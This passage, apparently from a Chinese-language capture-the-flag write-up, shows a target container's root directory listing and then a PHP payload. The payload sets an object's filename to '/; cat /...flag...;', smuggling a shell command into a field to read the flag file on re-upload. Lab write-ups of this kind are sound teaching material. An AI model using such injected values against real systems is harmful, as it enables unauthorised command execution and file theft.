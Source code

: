 可以得到回显如下

```bash
total 8
drwxr-xr-x    1 root root   89 Jul 30 03:29 .
drwxr-xr-x    1 root root   89 Jul 30 03:29 ..
-rwxr-xr-x    1 root root    0 Jul 30 03:29 .dockerenv
-rw-rw-r--    1 root root   45 Jul 30 03:29 adjaskdhnask_flag_is_here_dakjdnmsakjnfksd
drwxr-xr-x    1 root root   28 Oct 13  2020 bin
drwxr-xr-x    2 root root    6 Sep 19  2020 boot
drwxr-xr-x    5 root root  360 Jul 30 03:29 dev
drwxr-xr-x    1 root root   66 Jul 30 03:29 etc
drwxr-xr-x    2 root root    6 Sep 19  2020 home
drwxr-xr-x    1 root root   21 Oct 13  2020 lib
drwxr-xr-x    2 root root   34 Oct 12  2020 lib64
drwxr-xr-x    2 root root    6 Oct 12  2020 media
drwxr-xr-x    2 root root    6 Oct 12  2020 mnt
drwxr-xr-x    2 root root    6 Oct 12  2020 opt
dr-xr-xr-x 2072 root root    0 Jul 30 03:29 proc
drwx------    1 root root    6 Oct 13  2020 root
drwxr-xr-x    1 root root   21 Oct 13  2020 run
drwxr-xr-x    1 root root   20 Oct 13  2020 sbin
drwxr-xr-x    2 root root    6 Oct 12  2020 srv
dr-xr-xr-x   13 root root    0 Mar 28 03:11 sys
drwxrwxrwt    1 root root 4096 Jul 30 04:06 tmp
drwxr-xr-x    1 root root   19 Oct 12  2020 usr
drwxr-xr-x    1 root root   17 Oct 13  2020 var
```

将 PHP 代码中的 `$a->filename` 修改为

```php
$a->filename = '/; cat /adjaskdhnask_flag_is_here_dakjdnmsakjnfksd;';
```

再次上传靶机即可获得 flag 。
